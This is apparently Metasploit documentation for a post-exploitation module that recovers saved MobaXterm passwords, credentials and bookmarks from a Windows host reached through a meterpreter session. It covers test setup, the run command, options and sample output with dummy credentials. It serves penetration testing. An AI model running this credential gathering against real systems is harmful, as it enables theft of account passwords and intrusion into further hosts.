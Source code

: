 ## Vulnerable Application

  Any Windows host with a `meterpreter` session and MobaXterm v20.6+
  installed. The following passwords will be searched for and recovered:

### Installation Steps

  1. Download the latest installer of MobaXterm.
  2. Select default installation
  3. Open the software and click "Setting" in the toolbar, `General > MobaXterm password management > Master Password setting`
     complete password setting, add the test account password to the certificate.

## Verification Steps

  1. Get a `meterpreter` session on a Windows host.
  2. Do: ```run post/windows/gather/credentials/moba_xterm```
  3. If the system has registry keys for MobaXterm passwords they will be printed out.

## Options

 **MASTER_PASSWORD**

- If you know the password, you can skip decrypting the master password. If not, it will be decrypted automatically

 **CONFIG_PATH**

- Specifies the config file path for MobaXterm

## Scenarios

```

msf6 post(windows/gather/credentials/moba_xterm) > run
[*] Gathering MobaXterm session information from WIN-79MR8QJM50N
[!] Parsing is not supported: #84#9%C:\Users\FireEye\Desktop%0%#MobaFont%10%0%0%-1%15%236,236,236%30,30,30%180,180,192%0%-1%0%%xterm%-1%-1%_Std_Colors_0_%80%24
%0%1%-1%<none>%%0#0# #-1
[!] Parsing is not supported: #131#8%0%1009600%3%0%0%1%2%COM2  (ͨ˿ (COM2))#MobaFont%10%0%0%-1%15%236,236,236%30,30,30%180,180,192%0%-1%0%%xterm%-1%-1%_Std_Color
s_0_%80%24%0%1%-1%<none>%%0#0# #-1
[!] Parsing is not supported: #97#10%0%#MobaFont%10%0%0%-1%15%236,236,236%30,30,30%180,180,192%0%-1%0%%xterm%-1%-1%_Std_Colors_0_%80%24%0%1%-1%<none>%%0#0# #-1
[!] Parsing is not supported: #88#3%%0%-1%0%0%0%localhost%7100%1%0%1%0%657%336%0%0#MobaFont%10%0%0%-1%15%236,236,236%30,30,30%180,180,192%0%-1%0%%xterm%-1%-1%_
Std_Colors_0_%80%24%0%1%-1%<none>%%0#0# #-1
[+] MobaXterm Password
==================       
                                                                                                                                                               
Protocol  Hostname    Username  Password                                                                                                                       
--------  --------    --------  --------                                                                                                                       
          mobaserver  mobauser  278804moba14071pass317387                                                                                                      
                                                                                                                                                               
[+] MobaXterm Credentials
=====================

CredentialsName  Username  Password
---------------  --------  --------
ftp              1212
ssh              root      admin

[+] MobaXterm Bookmarks
===================

BookmarksName  Protocol  ServerHost           Port  Credentials or Passwords
-------------  --------  ----------           ----  ------------------------
ftp            ftp       ftp.asdas.com        21    asdas
msf            telnet    msf                  23    msf
rdp (rdp)      rdp       rdp                  3389  rdp
rsh            rsh       rdp.baid.com         rsh   #MobaFont
sftp           sftp      sftp.asdasd.com      22    asdasd
ssh            ssh       127.0.0.1            22    [ssh]
telnet_test    telnet    telnet.kali-team.cn  23    admin
vnc            vnc       vnc.basbas.com       5900  -1


```
